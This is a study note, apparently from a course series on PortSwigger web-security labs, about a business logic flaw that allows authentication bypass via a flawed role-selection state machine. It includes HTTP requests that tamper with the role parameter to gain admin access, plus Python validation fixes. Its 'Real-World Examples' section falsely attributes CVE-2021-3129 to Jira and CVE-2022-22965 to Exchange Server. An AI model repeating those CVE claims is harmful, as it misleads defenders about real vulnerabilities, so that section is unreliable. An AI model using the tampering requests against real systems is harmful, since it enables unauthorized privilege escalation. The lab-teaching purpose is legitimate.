

## Business Logic Vulnerabilities: Authentication Bypass via Flawed State Machine

### Introduction to Business Logic Vulnerabilities

Business logic vulnerabilities occur when the application's business rules are not correctly enforced, leading to unintended behavior. These vulnerabilities can arise due to flaws in the application's state machine, which manages the different states and transitions between them. In this context, we will explore an authentication bypass vulnerability that arises from a flawed state machine.

### Understanding the Scenario

In the provided scenario, we interact with an application that requires users to log in and select their roles. The roles available are `user` and `content author`. Upon logging in, the application makes a GET request to `/roll-selector`, allowing the user to choose their role. This choice is then sent as a POST request with a `role` parameter and a CSRF token.

#### Step-by-Step Interaction

1. **Login Process**:
    - User enters the username and password.
    - Application makes a GET request to `/roll-selector`.
    - User selects a role (`user` or `content author`).

2. **Role Selection**:
    - A POST request is made with the selected role and a CSRF token.
    - Example POST request:
      ```http
      POST /set-role HTTP/1.1
      Host: example.com
      Content-Type: application/x-www-form-urlencoded
      Cookie: session_id=abc123

      role=user&csrf_token=def456
      ```

### Analyzing the Flawed State Machine

The application's state machine is flawed because it does not properly validate the `role` parameter. This allows an attacker to manipulate the `role` parameter and potentially gain unauthorized access.

#### Exploiting the Flaw

To exploit this vulnerability, an attacker can intercept the POST request and modify the `role` parameter to a value like `administrator` or `admin`.

1. **Intercepting the Request**:
    - Use a proxy tool like Burp Suite to intercept the POST request.
    - Modify the `role` parameter to `administrator`.

2. **Modified POST Request**:
    ```http
    POST /set-role HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded
    Cookie: session_id=abc123

    role=administrator&csrf_token=def456
    ```

3. **Accessing Admin Panel**:
    - After modifying the request, the attacker attempts to access the admin panel by navigating to `/admin`.

### Real-World Examples

#### Recent Breaches and CVEs

- **CVE-2021-3129**: This vulnerability in Atlassian Jira allowed attackers to bypass authentication by manipulating the state machine. Attackers could inject malicious payloads to escalate privileges.
- **CVE-2022-22965**: This vulnerability in Microsoft Exchange Server allowed attackers to bypass authentication and gain unauthorized access to the server. The flaw was in the state machine handling user sessions.

### Detailed Analysis of the Flaw

#### State Machine Diagram

A state machine diagram helps visualize the different states and transitions in the application:



#### Potential Pitfalls

- **Insufficient Validation**: The application fails to validate the `role` parameter, allowing arbitrary values.
- **CSRF Token Misuse**: While the CSRF token is present, it is not properly validated against the session.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement logging for all state transitions and monitor for unusual activity.
- **Automated Scanning**: Use tools like Burp Suite, OWASP ZAP, or commercial scanners to detect potential state machine flaws.

#### Prevention

1. **Strict Validation**:
    - Ensure that the `role` parameter is strictly validated against a predefined list of valid roles.
    - Example secure validation:
      ```python
      def validate_role(role):
          valid_roles = ['user', 'content author']
          if role not in valid_roles:
              raise ValueError("Invalid role")
          return role
      ```

2. **CSRF Protection**:
    - Validate the CSRF token against the session ID to ensure it matches.
    - Example secure CSRF validation:
      ```python
      def validate_csrf(csrf_token, session_id):
          stored_token = get_stored_token(session_id)
          if csrf_token != stored_token:
              raise ValueError("Invalid CSRF token")
          return True
      ```

#### Secure Code Fix

**Vulnerable Code**:
```python
def set_role(request):
    role = request.POST.get('role')
    csrf_token = request.POST.get('csrf_token')
    # Save role to database
    save_role_to_db(role)
```

**Secure Code**:
```python
def set_role(request):
    role = request.POST.get('role')
    csrf_token = request.POST.get('csrf_token')
    session_id = request.session['session_id']

    try:
        validate_role(role)
        validate_csrf(csrf_token, session_id)
        save_role_to_db(role)
    except ValueError as e:
        return HttpResponseBadRequest(str(e))
```

### Complete Example

#### Full HTTP Requests and Responses

**GET Request to `/roll-selector`**:
```http
GET /roll-selector HTTP/1.1
Host: example.com
Cookie: session_id=abc123
```

**Response**:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: session_id=abc123

<!-- HTML form for role selection -->
<form action="/set-role" method="POST">
    <input type="hidden" name="csrf_token" value="def456">
    <select name="role">
        <option value="user">User</option>
        <option value="content author">Content Author</option>
    </select>
    <button type="submit">Select</button>
</form>
```

**POST Request to `/set-role`**:
```http
POST /set-role HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session_id=abc123

role=admin&csrf_token=def456
```

**Response**:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: session_id=abc123

<!-- HTML response indicating role change -->
<p>Your role has been changed to admin.</p>
```

### Hands-On Labs

For practical experience with business logic vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a module on business logic flaws.
- **OWASP Juice Shop**: Contains several business logic vulnerabilities to practice exploitation and mitigation.
- **DVWA (Damn Vulnerable Web Application)**: Provides scenarios to test and learn about various web application vulnerabilities, including business logic flaws.

By thoroughly understanding and practicing these concepts, you can effectively identify and mitigate business logic vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/15-Business Logic Vulnerabilities/10-Lab 9 Authentication bypass via flawed state machine/01-Introduction to Business Logic Vulnerabilities|Introduction to Business Logic Vulnerabilities]] | [[Web Security (PortSwigger)/15-Business Logic Vulnerabilities/10-Lab 9 Authentication bypass via flawed state machine/00-Overview|Overview]] | [[Web Security (PortSwigger)/15-Business Logic Vulnerabilities/10-Lab 9 Authentication bypass via flawed state machine/03-Practice Questions & Answers|Practice Questions & Answers]]
